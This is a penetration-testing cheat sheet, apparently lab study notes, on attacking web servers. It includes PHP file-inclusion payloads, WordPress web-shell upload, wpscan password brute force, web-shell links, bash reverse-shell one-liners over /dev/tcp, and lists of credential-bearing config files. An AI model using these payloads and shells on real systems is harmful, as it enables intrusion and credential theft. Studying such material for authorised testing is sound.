 # HTTP / HTTPS



* CHECK if the port hosts http/s:
  `# amap [ip address] [port]`


#### PHP
 * PHP local file inclusion
    - See [here](https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/) for many examples.
    -   "In versions of PHP below 5.3, we would be able to terminate our request with a null byte (%00) that would cause the PHP engine to ignore everything after that byte."

* LFI Cheatsheet [here](https://highon.coffee/blog/lfi-cheat-sheet/)
    https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/
    https://cyb3rninjas.blogspot.com/2015/03/lfi-exploitation-via-phpinput.html

* Read the source of a PHP file
  - Sometimes site seems vulnerable to LFI, but no NULL byte injection and only .php or similar.
  - Try to [read the source of the file](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/)

  ```
  $ curl http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index
  PD9waHAgZWNobygkX0dFVFsneCddKTsgLy8gT01HIHlvdSBib3RoZXJlZCB0byBkZWNvZGUgYmFzZSA2ND8gPz4=

  http://target_ip/?page=php://filter/convert.base64-encode/resource=config
  ```
  - This gives a Base64 string of the file content


* Upload a shell as part of an image:
  https://phocean.net/2013/09/29/file-upload-vulnerabilities-appending-php-code-to-an-image.html

* Include: If the PHP source has `include` set, check for injection!
```php
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
    include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>
```
  Then
  ```
  GET / HTTP/1.0
  Cookie: lang=../../../../etc/passwd

  HTTP/1.1 200 OK
  ...
  root:x:0:0:root/root:/bin/bash
  daemmon...
  ```
---

#### IIS 6.0 / WebDAV

* WebDAV enabled: https://blog.skullsecurity.org/2009/webdav-detection-vulnerability-checking-and-exploitation
 - Can check in msfconsole, or nmap
 `# nmap -Pn -n -sT -p 80 --script=http-iis-webdav-vuln 10.11.1.229`


---
#### WordPress

* Configuration stored in `https://[the_URL]/wp-config.php`

* Check for plugins, themes and uploads in https://[the_URL]/wp-content/

* In wordpress upload your shell using the plugin feature. --> Upload plugin: shell.php  
  https://192.168.213.134:12380/blogblog/wp-content/uploads/shell.php

* We run wpscan and see if we can find any users
  `wpscan --url https://192.168.213.134:12380/blogblog --enumerate u`

* Brute force account login for one user name:
  `wpscan --url https://192.168.213.134:12380/blogblog --wordlist /usr/share/wordlists/rockyou.txt --username john`


### Shells
  - ASP
    http://packetstormsecurity.org/UNIX/penetration/aspxshell.aspx.txt
  - Assorted
    http://michaeldaw.org/projects/web-backdoor-compilation/
    http://open-labs.org/hacker_webkit02.tar.gz
  - Perl
    http://home.arcor.de/mschierlm/test/pmsh.pl
    http://pentestmonkey.net/tools/perl-reverse-shell/
    http://freeworld.thc.org/download.php?t=r&f=rwwwshell-2.0.pl.gz
  - PHP
    http://php.spb.ru/remview/
    http://pentestmonkey.net/tools/php-reverse-shell/
    http://pentestmonkey.net/tools/php-findsock-shell/
  - Python
    http://matahari.sourceforge.net/
  - TCL
    http://www.irmplc.com/download_pdf.php?src=Creating_Backdoors_in_Cisco_IOS_using_Tcl.pdf&force=yes

  - Bash Connect Back Shell
    GnuCitizen
    ```
    Atttack Box: nc -l -p Port -vvv
    Victim: $ exec 5<>/dev/tcp/IP_Address/Port

    Victim: $ cat <&5 | while read line; do $line 2>&5 >&5; done
    ```

    Neohapsis
    ```
    Atttack Box: nc -l -p Port -vvv

    Victim: $ exec 0</dev/tcp/IP_Address/Port # First we copy our connection over stdin
    Victim: $ exec 1>&0 # Next we copy stdin to stdout
    Victim: $ exec 2>&0 # And finally stdin to stderr
    Victim: $ exec /bin/sh 0</dev/tcp/IP_Address/Port 1>&0 2>&0
    ```

### Configuration files

* Examine configuration files
  - **Apache**  
      - Examine `httpd.conf` windows config files

  - Java based apps
  ```
  web.config
  ```
  - **XAMMP** - WebDAV
  ```
  <XAMPP_INSTALLATION_HOME>\apache\conf\extra\httpd-dav.conf
  <XAMPP_INSTALLATION_HOME>\passwd
  c:\\xampp\\security\\webdav.htpasswd
  c:\xampp\passwd
  ```

  - **JBoss**
      - JMX Console `http://<IP>:8080/jmxconcole/`
      - War File
  - **Joomla**
  ```
  configuration.php
  diagnostics.php
  joomla.inc.php
  config.inc.php
  ```
  - **Mambo**
  ```
    configuration.php
    config.inc.php
    ```
  - **Wordpress**
  ```
  setup-config.php
  wp-config.php
  ```
  - **ZyXel**
  ```
  /WAN.html (contains PPPoE ISP password)
  /WLAN_General.html and /WLAN.html (contains WEP key)
  /rpDyDNS.html (contains DDNS credentials)
  /Firewall_DefPolicy.html (Firewall)
  /CF_Keyword.html (Content Filter)
  /RemMagWWW.html (Remote MGMT)
  /rpSysAdmin.html (System)
  /LAN_IP.html (LAN)
  /NAT_General.html (NAT)
  /ViewLog.html (Logs)
  /rpFWUpload.html (Tools)
  /DiagGeneral.html (Diagnostic)
  /RemMagSNMP.html (SNMP Passwords)
  /LAN_ClientList.html (Current DHCP Leases)
  Config Backups
      /RestoreCfg.html
      /BackupCfg.html
      Note: - The above config files are not human readable and the following tool is required to breakout possible admin credentials and other important settings
          ZyXEL Config Reader
  ```
